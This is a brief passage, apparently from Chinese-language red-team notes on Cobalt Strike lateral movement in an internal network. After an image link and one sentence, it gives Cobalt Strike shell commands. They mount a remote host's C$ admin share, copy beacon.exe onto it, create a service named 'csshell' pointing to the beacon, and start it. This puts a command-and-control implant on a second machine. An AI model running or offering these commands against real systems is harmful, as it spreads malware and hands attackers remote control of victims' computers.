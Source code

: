 [![](assets/1702372940-36429986719db58d619d8f7b46e3f7fc.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/23.png)

之后可复制文件，创建启动服务命令上线 CS

```bash
shell net use \\192.168.91.178\c$
shell copy c:\beacon.exe \\192.168.91.178\c$
shell sc \\TALE2B52 create csshell binpath= "c:\beacon.exe"
shell sc \\TALE2B52 start csshell
```

